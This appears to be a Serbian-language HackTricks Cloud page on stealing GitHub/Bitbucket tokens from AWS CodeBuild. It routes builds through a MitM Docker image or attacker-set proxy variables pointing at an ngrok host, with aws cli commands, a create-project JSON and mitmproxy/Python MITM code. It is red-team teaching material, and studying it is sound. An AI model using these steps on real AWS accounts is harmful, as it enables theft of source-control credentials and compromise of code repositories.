# AWS Codebuild - Token Leakage

{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Oporavak Github/Bitbucket Konfigurisani Tokeni

Prvo, proverite da li postoje neki izvorni kredencijali koji su konfigurisani i koje biste mogli leak:
```bash
aws codebuild list-source-credentials
```
### Preko Docker Image-a

Ako otkrijete da je autentifikacija na primer za Github postavljena na nalogu, možete **eksfiltrirati** taj **pristup** (**GH token ili OAuth token**) tako što ćete naterati Codebuild da **koristi specifičan docker image** za pokretanje build-a projekta.

Za ovu svrhu možete **kreirati novi Codebuild projekat** ili promeniti **okruženje** postojećeg da postavi **Docker image**.

Docker image koji možete koristiti je [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Ovo je veoma osnovni Docker image koji će postaviti **env varijable `https_proxy`**, **`http_proxy`** i **`SSL_CERT_FILE`**. Ovo će vam omogućiti da presretnete većinu saobraćaja hosta navedenog u **`https_proxy`** i **`http_proxy`** i da verujete SSL CERT-u navedenom u **`SSL_CERT_FILE`**.

1. **Kreirajte i otpremite svoj Docker MitM image**
* Pratite uputstva iz repozitorijuma da postavite IP adresu vašeg proxy-ja i postavite vaš SSL cert i **izgradite docker image**.
* **NEMOJTE POSTAVLJATI `http_proxy`** da ne biste presretali zahteve ka metadata endpoint-u.
* Možete koristiti **`ngrok`** kao `ngrok tcp 4444` da postavite proxy na vaš host.
* Kada izgradite Docker image, **otpremite ga u javni repozitorijum** (Dockerhub, ECR...)
2. **Postavite okruženje**
* Kreirajte **novi Codebuild projekat** ili **modifikujte** okruženje postojećeg.
* Postavite projekat da koristi **prethodno generisani Docker image**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Postavite MitM proxy na vašem hostu**

* Kao što je navedeno u **Github repozitorijumu** možete koristiti nešto poput:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy verzija korišćena je 9.0.1**, prijavljeno je da sa verzijom 10 ovo možda neće raditi.
{% endhint %}

4. **Pokrenite build i uhvatite kredencijale**

*   Možete videti token u **Authorization** zaglavlju:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Ovo se takođe može uraditi sa aws cli sa nečim poput

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**AWS je ispravio ovu ranjivost negde tokom nedelje 20. februara 2023. (mislim da je to bilo u petak). Dakle, napadač više ne može da je zloupotrebi :)**
{% endhint %}

Napadač sa **povišenim dozvolama u CodeBuild-u mogao bi da leak-uje Github/Bitbucket token** koji je konfigurisan ili, ako su dozvole konfigurisane putem OAuth-a, **privremeni OAuth token korišćen za pristup kodu**.

* Napadač bi mogao da doda promenljive okruženja **http\_proxy** i **https\_proxy** u CodeBuild projekat usmeravajući ih na svoju mašinu (na primer `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Zatim, promenite URL github repozitorijuma da koristi HTTP umesto HTTPS, na primer: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Zatim, pokrenite osnovni primer sa [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na portu koji je naveden u proxy promenljivama (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na kraju, kliknite na **Build the project**, **credentials** će biti **poslati u čistom tekstu** (base64) na mitm port:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Sada će napadač moći da koristi token sa svoje mašine, da navede sve privilegije koje ima i (zlo)upotrebi ih lakše nego korišćenjem CodeBuild servisa direktno.
{% endhint %}

{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hacking trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
